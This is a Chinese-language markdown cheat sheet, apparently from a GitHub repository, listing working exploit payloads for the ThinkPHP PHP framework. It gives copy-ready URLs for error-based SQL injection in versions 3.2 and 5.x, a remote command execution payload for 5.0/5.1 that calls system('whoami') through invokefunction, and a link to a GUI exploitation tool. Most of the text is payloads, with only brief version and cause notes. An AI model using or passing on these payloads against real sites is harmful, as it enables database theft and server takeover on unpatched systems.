

## 应用简介

ThinkPHP是国内一款常用的PHP后台开发框架。

## GUI图形化利用工具

[@bewhale](https://github.com/bewhale/thinkphp_gui_tools)



## [ThinkPHP 3.2]-SQL注入

**漏洞利用**

```sql
--table
http://127.0.0.1/index.php?m=Home&c=Index&a=test&id[table]=user where%201%20and%20updatexml(1,concat(0x7e,user(),0x7e),1)--

--alias
http://127.0.0.1/index.php?m=Home&c=Index&a=test&id[alias]=where%201%20and%20updatexml(1,concat(0x7e,user(),0x7e),1)--

--where:
http://127.0.0.1/index.php?m=Home&c=Index&a=test&id[where]=1%20and%20updatexml(1,concat(0x7e,user(),0x7e),1)--
```

## [ThinkPHP 5.x]-命令执行漏洞

**漏洞概述**

```http
#影响范围
5.0 < 5.0.24
5.1 < 5.1.31
```

由于框架对控制器名没有进行足够的检测会导致在没有开启强制路由的情况下可能的getshell漏洞，受影响的版本包括5.0和5.1版本，推荐尽快更新到最新版本。

**漏洞利用**

phpinfo：

```http
?s=index/\think\app/invokefunction&function=call_user_func_array&vars[0]=phpinfo&vars[1][]=1
```

命令执行：

```http
?s=index/think\app/invokefunction&function=call_user_func_array&vars[0]=system&vars[1][]=whoami
```

**漏洞分析**

## 5.0 注入

```bash
# thinphp 5.0.13<=ThinkPHP<=5.0.15 、 5.1.0<=ThinkPHP<=5.1.5 
#insert注入
还是exp同类的问题,如果有inc或者dec,val[2]强转了,vak[1]没处理

index?username[0]=inc&username[1]=updatexml(1,concat(0x7,user(),0x7e),1)&username[2]=1 

# 5.1.6<=ThinkPHP<=5.1.7 (非最新的 5.1.8 版本也可利用)。
#insert注入
还是上面同一个地方,,加了default 处理,根进去,还是直接拼接了sql语句
index?username[0]=point&username[1]=1&username[2]=updatexml(1,concat(0x7,user(),0x7e),1)^&username[3]=0 

# ThinkPHP5全版本 。
Mysql 类的 parseWhereItem 方法中,
需要exp,本来就是官方执行语句的参数,然后没有过滤)导致可以逃出原本执行,进入联合查询啥的
index?username=) union select updatexml(1,concat(0x7,user(),0x7e),1)#

#  ThinkPHP=5.0.10
Request 类的 filterValue 方法漏过滤 NOT LIKE 关键字
导致where(['username' => $username])
username 传入数组可以注入,
NOT LIKE 第三个参数可以指定多个like查询的关系,如 and 
插入sql语句,导致注入..

 http://localhost:8000/index/index/index?username[0]=not like&username[1][0]=%%&username[1][1]=233&username[2]=) union select 1,user()--+
 
# 5.1.16<=ThinkPHP5<=5.1.22  order 注入
parsrorder 没过滤,数组拼接注入`逃逸
index/index/index?orderby[id`|updatexml(1,concat(0x7,user(),0x7e),1)%23]=1 
 
#  5.0.0<=ThinkPHP<=5.0.21 、 5.1.3<=ThinkPHP5<=5.1.25 聚合函数注入
#5.0.0~5.0.21 、 5.1.3～5.1.10
id)%2bupdatexml(1,concat(0x7,user(),0x7e),1) from users%23

#5.1.11～5.1.25
id`)%2bupdatexml(1,concat(0x7,user(),0x7e),1) from users%23
 
max 聚合函数,传入表名的位置,``包裹,所以存在注入,修复方法,进行匹配,阻止数字,字母,*以为的字符
```

## 5.0.24存在反序列化

这是个鸡肋漏洞，很难利用

